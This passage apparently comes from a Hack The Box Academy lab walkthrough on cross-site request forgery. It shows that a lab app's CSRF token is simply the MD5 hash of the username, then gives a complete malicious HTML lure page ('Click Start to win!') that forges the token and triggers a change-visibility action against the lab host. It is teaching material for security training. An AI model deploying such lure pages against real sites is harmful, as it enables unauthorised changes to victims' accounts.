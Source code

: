 You should see a request similar to the one below. Note the value of the CSRF token.

![image](https://academy.hackthebox.com/storage/modules/153/49.png)

Execute the below command to calculate the MD5 hash of the string "goldenpeacock467" (the username).

```shell
echo -n goldenpeacock467 | md5sum
0bef12f8998057a7656043b6d30c90a2  -

```

You will notice that the resulting hash is the same as the CSRF value! This means that the CSRF token is generated by MD5-hashing the username.

When assessing how robust a CSRF token generation mechanism is, make sure you spend a small amount of time trying to come up with the CSRF token generation mechanism. It can be as easy as `md5(username)`, `sha1(username)`, `md5(current date + username)` etc. Please note that you should not spend much time on this, but it is worth a shot.

Now that we know how the CSRF token for this action is generated let us see how we can attack other users through CSRF.

Find below the malicious page. Save it as `press_start_2_win.html`

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>

```

